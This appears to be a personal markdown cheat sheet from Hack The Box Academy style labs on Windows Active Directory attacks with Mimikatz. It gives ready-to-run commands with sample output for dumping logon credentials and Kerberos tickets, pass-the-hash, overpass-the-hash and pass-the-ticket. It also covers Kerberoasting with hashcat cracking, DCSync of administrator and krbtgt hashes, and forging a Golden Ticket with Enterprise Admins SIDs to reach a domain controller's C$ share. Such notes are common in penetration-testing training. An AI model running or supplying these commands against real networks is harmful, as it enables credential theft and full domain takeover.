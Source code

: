 ```yaml
---
tags:
  - windows
  - PtH
  - PtT
  - kerberoasting
  - dcsync
  - sid-abuse
---
```

# Modules
## Logon Passwords
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit
```
## Export Tickets
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit
```
# Pass the Hash
Following are required:
- `/user` to authenticate as
- `/rc4` or `/NTLM` hash of the user's password.
- `/domain` the user to impersonate belongs to. If it's local user account, use the computer name, localhost, or a dot (.).
- `/run` - Program to run with the user's context (default cmd.exe).
```powershell
PS > mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<RC4/NTLM HASH> /domain:<domain> /run:cmd.exe" exit
```

# Pass the Key / OverPass the Hash
## Extract Kerberos Keys
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

```powershell
PS > mimikatz.exe privilege::debug "/domain:inlanefreight.htb /user:plaintext /ntlm:<HASH>" exit
```

```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"' exit
```
>**Note:** Instead of opening mimikatz.exe with `cmd.exe` and exiting to get the ticket into the current command prompt, we can use the  `misc` module to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

>**Note:** Mimikatz requires administrative rights for Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

# Powershell Remoting with PtT
```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"' exit
PS > Enter-PSSession -ComputerName DC01
```
# Kerberoasting
## Extract TGS Ticket from Memory
If the TGS ticket is in memory (from [[SetSPN]] for example), extract it:
```Powershell
mimikatz > base64 /out:true
mimikatz > kerberos::list /export

<SNIP>
[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFO
RUZSRUlHSFQuTE9DQUyiOzA5oAMCAQKhMjAwGwhNU1NRTFN2YxskREVWLVBSRS1T
<SNIP>
LkxPQ0FMqTswOaADAgECoTIwMBsITVNTUUxTdmMbJERFVi1QUkUtU1FMLmlubGFu
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================
   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
<SNIP>
```
>Without `base64 /out:true` command, it will extract the tickets in `.kirbi` files, with which we can directly skip to `kirbi2john` step.
## Prepare the file for Cracking
- Clean the base64 and convert to `.kirbi`:
```shell-session
$ echo "<base64 blob>" |  tr -d \\n >> encoded_file
$ cat encoded_file | base64 -d > sqldev.kirbi
$ kirbi2john sqldev.kirbi
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs.hashcat
$ cat sqldev_tgs_hashcat 

$krb5tgs$23$*sqldev.kirbi*$813149fb<SNIP>8e71a057feeab
```
## Crack the Hash using [[Hashcat]]
```shell-session
$ hashcat -m 13100 sqldev_tgs.hashcat /usr/share/wordlists/rockyou.txt
```
# DCSync
Mimikatz must be ran in the context of the user who has DCSync privileges and only one user can be attacked at a time.
- Using `runas`
```cmd-shell
> runas /netonly /user:INLANEFREIGHT\adunn powershell
```
- Using 
```powershell
PS > .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
... SNIP ...
	NTLM: <NTLM-HASH>
... SNIP ...
```
# Golden Ticket
- Obtain the KRBTGT Account's NT Hash:
```powershell
mimikatz > lsadump::dcsync /user:LOGISTICS\krbtgt
```
- Get current child domain SID using [[PowerView#[Get-DomainSID](https //powersploit.readthedocs.io/en/latest/Recon/Get-DomainSID/)|Get-DomainSID]]
- Get SID for Enterprise Admins group in the parent domain either with [[ActiveDirectory#[Get-ADGroup](https //docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps)|Get-ADGroup]] or [[PowerView#[Get-DomainGroup](https //powersploit.readthedocs.io/en/latest/Recon/Get-DomainGroup/)|Get-DomainGroup]]:
```powershell
PS > Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
PS > Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
- Request a Golden Ticket:
```powershell
mimikatz > kerberos::golden /user:hacker /domain:<CHILD-DOMAIN-FQDN> /sid:<CHILD-DOMAIN-SID> /krbtgt:<KRBTGT-NTHash> /sids:<ROOT-DOMAIN-ENTERPRISE-ADMIN-SID> /ptt
```
The ticket can be confirmed with [[klist]]. And if the attack is successful, we should be able to read DC's whole C drive!
```powershell
PS > ls \\academy-ea-dc01.inlanefreight.local\c$
```